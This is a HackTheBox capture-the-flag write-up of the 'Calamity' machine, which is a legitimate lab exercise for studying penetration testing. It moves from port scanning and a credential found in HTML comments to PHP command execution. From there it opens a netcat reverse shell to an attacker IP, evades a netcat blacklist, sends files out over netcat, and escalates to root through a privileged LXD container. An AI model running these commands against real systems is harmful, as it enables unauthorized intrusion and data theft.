



# HackTheBox: Calamity Machine Write-Up

## **Objective**
Calamity is not overly challenging for an initial foothold, but its privilege escalation requires advanced memory exploitation and bypassing multiple security protections.

---

## **Machine Description**
The privilege escalation requires advanced memory exploitation, having to bypass many protections put in place.

## **1. General Information about the Machine**
- **Machine Name**: Calamity
- **IP Address**: 10.10.10.27
- **Objective**: Advanced memory exploitation.

## **2. Enumeration**
### **2.1 Initial Port Scan**
I perform an initial scan to check for open ports:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.27
```
The output shows that ports **22 (SSH) and 80 (HTTP)** are open.

### **2.2 Service and Version Detection**
Knowing which ports are open, I conduct a detailed scan to verify the versions and services running on them:
```bash
nmap -sV -sC 10.10.10.27 -oN targeted
```
#### **Scan Results:**
```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Brotherhood Software
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### **2.3 Web Enumeration with WhatWeb**
I use **WhatWeb** to analyze the technology running on port 80:
```bash
whatweb http://10.10.10.27
```
#### **Results:**
```plaintext
http://10.10.10.27 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.27], Title[Brotherhood Software]
```
I then search for possible exploits related to the technology but find no relevant results:
```bash
searchsploit brotherhood
```

### **2.4 Directory Enumeration with Nmap**
To check for hidden directories, I perform a web enumeration using Nmap:
```bash
nmap --script http-enum -p80 10.10.10.27 -oN routesWeb
```

#### **Results:**
Two directories are discovered. Navigating to `http://10.10.10.27/admin.php`, I find a login form. Inspecting the HTML source, I find a password in the comments. After testing several combinations, I realize that the form expects the **password first** and then the **username**. Using the credentials:
```
skoupidotenekes:admin
```
I successfully log in.

---

## **3. Exploiting Remote Code Execution**
Inside the admin panel, I find an input field that appears to execute system commands. I test by running:
```php
<?php system("whoami"); ?>
```

#### **Result:**
The output returns `www-data`, confirming that I can execute commands on the system.

### **3.1 Reverse Shell Attempt**
I attempt to gain a reverse shell using Netcat:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f"); ?>
```
Meanwhile, on my attacker machine, I start a Netcat listener:
```bash
nc -lvnp 9001
```
However, the connection opens and immediately closes. Investigating further, I find a file `/home/xalvas/intrusions` that **blacklists Netcat**.

### **3.2 Bypassing the Netcat Restriction**
To evade the restriction, I copy Netcat to `/dev/shm/` and execute it from there:
```php
<?php system("cp /bin/nc /dev/shm/test"); ?>
<?php system("chmod 755 /dev/shm/test"); ?>
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| /dev/shm/test 10.10.14.16 9001 >/tmp/f"); ?>
```
Now, the listener successfully captures the shell, granting me access as `www-data`.

---

## **4. Privilege Escalation to xalvas**
### **4.1 Extracting Suspicious Audio Files**
I find audio files in `/home/xalvas/alarmclocks/` and transfer them to my machine using Netcat:
```bash
nc -lvnp 1234 > rick.wav
nc -lvnp 1234 > xouzouris.mp3
nc -lvnp 1234 > recov.wav
```
On the victim machine:
```php
<?php system("/dev/shm/test 10.10.14.16 1234 < /home/xalvas/alarmclocks/rick.wav"); ?>
```

### **4.2 Analyzing the Audio Files**
Comparing `rick.wav` and `recov.wav`, I find they are slightly different:
```python
import audiodiff
print(audiodiff.audio_equal('recov.wav', 'rick.wav'))
```
Using **SoX**, I invert `rick.wav` and mix it with `recov.wav` to reveal hidden data:
```bash
sox rick.wav rick_inv.wav reverse
sox -m rick_inv.wav recov.wav output.wav
play output.wav
```
This reveals a **password**, which allows me to SSH into the machine as `xalvas`:
```bash
ssh xalvas@10.10.10.27
```

---

## **5. Privilege Escalation to Root via LXD**
### **5.1 Checking LXD Group Membership**
```bash
id
```

Since `xalvas` is in the `lxd` group, I can exploit LXC to gain root access.


### **5.2 Creating an Alpine Linux Image**
From my attacker machine:
```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine.sh -a i686
```
I then transfer the image to the victim machine:
```bash
scp alpine-v3.11-i686-20200106_1943.tar.gz xalvas@10.10.10.27:
```
### **5.3 Importing and Executing the Container**
```bash
lxc image import alpine-v3.11-i686-20200106_1943.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root/
lxc start privesc
lxc exec privesc /bin/sh
```
### **5.4 Gaining Root Access**
```bash
cd /mnt/root
chroot /mnt/root /bin/bash
```
Finally, I capture the root flag:
```bash
cd /root
cat root.txt
```

---

## **Conclusion**
By leveraging remote command execution, bypassing Netcat restrictions, extracting hidden credentials, and exploiting LXD, I successfully compromised **Calamity** and obtained root access.

**Machine pwned! 🎉**
